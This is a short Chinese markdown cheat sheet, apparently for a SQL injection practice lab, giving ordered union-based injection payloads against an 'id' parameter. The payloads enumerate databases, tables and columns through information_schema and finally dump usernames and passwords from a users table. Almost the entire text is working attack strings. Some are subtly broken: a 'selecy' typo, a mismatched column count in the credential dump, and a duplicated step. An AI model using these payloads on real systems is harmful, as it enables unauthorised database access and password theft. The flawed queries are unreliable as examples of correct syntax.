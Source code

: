 ## 注入步骤
- 判断注入类型
  - id=1' and 1=1 --+
  - id=-1' or 1=1 --+

- 判断字段数
  - id=1' order by 3--+

- 获取当前数据库名
  - id=-1' union select 1,(select database()),3 --+

- 获取所有数据库
  - id=-1' union selecy 1,group_concat(schema_name),3 from information_schema.schemata --+

- 获取当前数据库表名
  - id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+

- 获取users表所有字段
  - id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema='security' --+

- 获取users表所有用户名和密码信息
  - id=-1' union select group_concat(username),group_concat(password) from users

- 获取security.users表所有字段
  - id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema='security' --+
